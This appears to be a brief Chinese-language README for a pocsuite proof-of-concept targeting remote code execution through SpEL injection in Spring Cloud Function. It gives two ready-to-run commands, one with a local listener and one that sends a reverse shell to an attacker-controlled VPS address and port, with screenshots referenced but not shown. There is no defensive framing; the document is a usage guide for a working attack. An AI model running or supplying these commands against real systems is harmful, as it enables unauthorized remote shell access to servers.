 # 0x001 本地监听模式
```bash
pocsuite -r Spring-Cloud-Function-SpEL-RCE.py -u http://127.0.0.1:8080 --shell --lhost 0.0.0.0 --lport 6666
```
![](image/1.png)

# 0x002 远程监听模式
```bash
pocsuite -r Spring-Cloud-Function-SpEL-RCE.py -u http://127.0.0.1:8080 --shell --lhost vps地址 --lport vps端口
```
![](image/3.png)
